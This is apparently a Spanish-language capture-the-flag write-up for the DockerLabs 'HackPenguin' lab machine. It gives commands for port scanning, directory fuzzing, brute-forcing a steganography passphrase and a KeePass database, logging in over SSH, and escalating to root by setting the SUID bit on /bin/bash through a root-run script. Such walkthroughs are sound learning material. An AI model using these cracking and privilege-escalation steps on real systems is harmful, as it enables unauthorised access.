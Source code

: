 Máquina: [HackPenguin](https://dockerlabs.es/#/#HackPenguin), from DockerLabs

## 1) Enumeración de puertos con nmap
```
nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.17.0.2
```
Puertos abiertos: 80 (http) y 22 (SSH).

## 2) Fuzzing para buscar endpoints
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x txt,php,html,sh -q
```
`dir: para utilizar el modo de enumeración de archivos/directorios `\
`-w <PATH>: la lista de palabras a utilizar para el fuzz`\
`-t X: cantidad de threads concurrentes`\
`-x <extensiones> el tipo de extensiones a buscar`\
`-q: para que no imprima el header useless`

Obtengo los siguientes resultados: \
| Endpoint | Status code|
|    :--    |    :--: |
|/penguin.html | 200|
|/index.html   | 200|

## 3) Inspeccionar un endpoint con burpsuite
Luego de buscar durante un rato si era posible sobreescribir una de las imagenes que se muestran en un endpoint, descarto este enfoque.

## 4) Investigar la imagen para buscar metadata
Descargo la imágen y corro algunas utilidades en búsqueda de metadatos

`mediainfo penguin.jpg`\
`strings penguin.jpg`\
`file penguins.jpg`

No encontré nada valioso. Si hay información en la imagen entonces debe estar oculta mediante esteganografía.

## 5) Investigar la imagen con esteganografía

La utilidad `steghide` permite extraer información de una imagen. Pero require una contraseña que desconocemos. Recurramos a fuerza bruta.
```
stegseek penguin.jpg /usr/share/wordlists/rockyou.txt
```
La contraseña encontrada es `chocolate`. La podemos usar para extraer la info en la imagen.
```
steghide extract -sf penguin.jpg -p chocolate -v
```

`extract: quiero extraer informacion, no esconder`\
`-sf <PATH>: archivo a analizar`\
`-p <PASSWORD>: password`\
`-v: verbose mode`

Logramos extraer un archivo formato `kdbx`: Keepass password database.
Luego de investigar en la página oficial [keepass.info](https://keepass.info/help/kb/kdbx.html) resulta que se trata de un formato utilizado para almacenar información como nombres de usuarios, contraseñas o URLs. Provee has para determinar la autenticidad del mismo y puede estar encriptado. Ya nos da la pauta de que podria ser utilizado como autentificación con ssh...

## 6) Inspecciono el archivo .kdbx con keepass2
Cuando quiero abrir el archivo KeePass, resulta que está protegido con contraseña (menos mal).
```
keepass2 penguin.kdbx
```

Podriamos hacerle fuerza bruta con la utilidad `john`, para ello debemos extraer el hash del archivo.

## 7) Obteniendo la contraseña del archivo KeePass
```
keepass2john penguin.kdbx > KeePassHash
```
De esta manera obtenemos un hash para hacerle fuerza bruta
```
john --wordlist /usr/share/wordlists/rockyou.txt KeePassHash
```

Obtenemos la siguiente contraseña: `password1`. Ya podemos volver a keepass2 y examinar el penguin.kdbx

## 8) Examinamos el contenido del .kdbx con keepass2 y la contraseña
Los datos que encontramos:

Username: pinguino
Password: pinguinomaravilloso123

Ya está listo para SSH...

## 9) Realizamos la conexión SSH
```
ssh penguin@172.17.0.2
```
El usuario al final era penguin, no pinguino.
Password: pinguinomaravilloso123

Ahora simplemente toca escalar privilegios

## 10) Escalada de privilegios
Al listar los archivos presentes vemos uno llamado `script.sh` cuyo owner es root.
Ese script está creando un archivo llamado `archivo.txt` con un texto y que también pertenece al usuario root. Luego de eliminar el archivo observamos que vuelve a aparecer, lo cual da la pauta de que hay un servicio corriendo under-the-hood que ejecuta a `script.sh`. Y recordemos que este script pertenece a root!!

En otras palabras, todo lo que ejecutemos dentro de ese contexto tendrá permisos de root. En este punto ya los caminos para lograr acceder al usuario root son miles.
Uno de ellos podria ser simplemente darle al usuario penguin acceso irrestrico a `/bin/bash` de esa manera podríamos correr `/bin/bash -p` para correrla en modo privileged.
Para ello agregamos la siguiente linea al archivo `script.sh`:

```
chmod u+s /bin/bash
```
De esta manera estamos seteando el flag SETUID del binario bash. Dicho de otro modo, le estamos dando permiso al usuario actual de ejecutar el binario `/bin/bash` con los mismos permisos que el owner, root, en vez de que se ejecute con los permisos de quien lo invocó. 

## Resumen del ataque

Este método funcionó por lo siguiente:
* La contraseña del archivo KeePass fue muy fácil de crackear con fuerza bruta
* La contraseña escondida en la imagen también fue fácil de crackear
* Tenemos acceso a modificar un archivo que se está ejecutando periódicamente con permisos sudo.
